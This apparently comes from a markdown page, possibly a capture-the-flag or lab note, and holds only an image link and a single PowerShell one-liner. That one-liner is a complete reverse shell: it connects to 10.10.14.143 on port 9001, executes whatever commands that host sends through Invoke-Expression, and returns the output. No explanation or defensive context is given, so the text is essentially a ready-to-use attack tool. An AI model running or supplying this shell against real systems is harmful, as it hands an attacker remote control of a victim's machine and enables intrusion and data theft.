

```
$LHOST = "10.10.14.143"; $LPORT = 9001; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```


